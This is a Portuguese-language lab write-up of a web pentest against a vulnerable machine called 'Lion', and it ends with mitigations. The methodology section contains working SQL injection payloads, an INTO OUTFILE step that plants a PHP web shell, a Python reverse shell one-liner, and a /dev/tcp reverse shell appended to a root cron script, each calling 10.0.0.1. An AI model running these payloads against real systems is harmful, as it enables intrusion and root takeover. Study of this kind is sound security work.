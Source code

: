 # Lab Lion - Exploração Avançada de Vulnerabilidades

![Lab Banner](https://img.shields.io/badge/Category-Web%20Pentest-red) 
![Difficulty](https://img.shields.io/badge/Difficulty-Intermediate-orange) 
![Vulnerabilities](https://img.shields.io/badge/Vulnerabilities-3%20Critical-brightgreen)

## 📌 Visão Geral
Exploração completa de um ambiente vulnerável contendo múltiplas falhas críticas que permitiram:
1. **SQL Injection → RCE** (Injeção SQL com Execução Remota de Código)
2. **Upload de Web Shell** (Backdoor PHP)
3. **Escalonamento de Privilégios via Cron Jobs** (Root Access)

> ⚠️ **Nota Ética**: Todas as técnicas foram realizadas em ambiente controlado para fins educacionais.

## 🔍 Sumário Executivo

| Item | Detalhes |
|------|----------|
| **Data** | [Inserir data] |
| **Tempo de Exploração** | 2 horas |
| **Ferramentas** | Nmap, Burp Suite, Netcat, LinPEAS |
| **CVEs Relacionados** | CWE-89 (SQLi), CWE-434 (Upload Arbitrário) |

## 🎯 Metodologia

### 1. Reconhecimento Inicial
```bash
sudo nmap -p- -Pn -min-rate 300 -oG Allports 192.168.1.100
```
**Resultados:**
- Porta 80 (HTTP): Aplicação web vulnerável
- Porta 3306 (MySQL): Banco de dados exposto

### 2. Exploração de SQL Injection
**Payload inicial para detecção:**
```sql
' UNION SELECT 1,2,3,4,5,6,7#
```
**Exploração avançada:**
```sql
' UNION SELECT 1,@@version,3,4,5,6,7#
```
**Resultado:** MariaDB 5.5.68

### 3. Conversão para RCE via OUTFILE
```sql
' UNION SELECT 1,"<?php system($_GET['cmd']); ?>",3,4,5,6,7 
INTO OUTFILE "/var/www/html/includes/cmd.php"#
```
**Webshell acessível em:**
```
http://192.168.1.100/includes/cmd.php?cmd=id
```

### 4. Estabelecimento de Reverse Shell
**Payload Python:**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

### 5. Escalonamento de Privilégios
**Vulnerabilidade encontrada:**
- Cron job executando como root:
```bash
/opt/lion/lion.backup.sh
```
**Exploração:**
```bash
echo "bash -i >& /dev/tcp/10.0.0.1/1337 0>&1" >> /opt/lion/lion.backup.sh
```

## 🛠️ Fluxo Completo de Ataque

```mermaid
graph TD
    A[Reconhecimento] --> B[SQL Injection]
    B --> C[Database Enumeration]
    C --> D[Webshell Upload]
    D --> E[Reverse Shell]
    E --> F[LinPEAS Scan]
    F --> G[PrivEsc via Cron]
    G --> H[Root Access]
```

## 📸 Evidências

1. **SQL Injection**:
   ![SQLi Proof](screenshots/sqli-proof.png)

2. **Web Shell**:
   ![Webshell](screenshots/webshell.png)

3. **Root Access**:
   ![Root Shell](screenshots/root-shell.png)

## 🛡️ Lições Aprendidas

### Vulnerabilidades Críticas
1. **Input não sanitizado** permitiu SQL Injection
2. **Configuração insegura** do MySQL (`secure_file_priv` desabilitado)
3. **Permissões inadequadas** em scripts agendados

### Mitigações Recomendadas
1. Implementar prepared statements
2. Restringir permissões de escrita no filesystem
3. Revisar todos os cron jobs com privilégios elevados

## 🧠 Habilidades Demonstradas

| Técnica | Nível | Ferramentas |
|---------|-------|------------|
| Enumeração de Rede | ★★★☆☆ | Nmap |
| Exploração SQLi | ★★★★☆ | Burp Suite |
| Pós-Exploração | ★★★★☆ | Netcat, LinPEAS |
| Análise de Vulnerabilidades | ★★★★☆ | Manual |

## 🔗 Recursos Úteis
- [OWASP SQL Injection Prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Linux Privilege Escalation Checklist](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)

---